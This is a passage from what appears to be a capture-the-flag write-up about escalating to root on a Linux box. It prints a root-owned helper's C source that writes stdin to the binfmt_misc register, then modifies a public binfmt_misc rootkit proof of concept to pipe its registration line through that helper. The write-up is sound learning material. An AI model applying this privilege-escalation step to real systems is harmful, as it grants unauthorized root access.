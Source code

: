 We also see a `reg_helper` binary there and we can have a look at the source-code. The interesting part here is that this file is owned by `root`!  `/home/dev/emuemu/reg_helper.c`:
```c reg_helper.c
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

int main(void) {
    char cmd[512] = { 0 };

    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;

    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);
    if (-1 == fd)
        perror("open");
    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)
        perror("write");
    if (close(fd) == -1)
        perror("close");

    return 0;
}
```

It seems that the `reg_helper` is using `/proc/sys/fs/binfmt_misc/register` to run some commands. At first I didn't know much about `binfmt_misc` so I did a bit of research and learn the basics of usage.

Based on Wikipedia, **binfmt_misc** (_Miscellaneous Binary Format_) is a capability of the [Linux kernel](https://en.wikipedia.org/wiki/Linux_kernel "Linux kernel") which allows arbitrary [executable file formats](https://en.wikipedia.org/wiki/Executable_file_format "Executable file format") to be recognized and passed to certain [user space](https://en.wikipedia.org/wiki/User_space "User space") applications, such as [emulators](https://en.wikipedia.org/wiki/Emulator "Emulator") and [virtual machines](https://en.wikipedia.org/wiki/Virtual_machine "Virtual machine").It is one of a number of binary format handlers in the kernel that are involved in preparing a user-space program to run.

We can check how EMUEMU is used:
```bash
dev@retired:~$ cat /proc/sys/fs/binfmt_misc/EMUEMU 
enabled
interpreter /usr/bin/emuemu
flags: 
offset 0
magic 13374f53545249434800524f4d00
```

So files that starts with that "magic" signature will be interpreted by `/usr/bin/emuemu`.

### Road to root
During my research I found [this github repository](https://github.com/toffan/binfmt_misc/blob/master/binfmt_rootkit) which is a POC to exploit this functionality.
We can make a copy of that and do some modifications to make it work for us.
Modify the last line:
```bash
# Original
echo "$binfmt_line" > "$mountpoint"/register

# Modified
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper
```
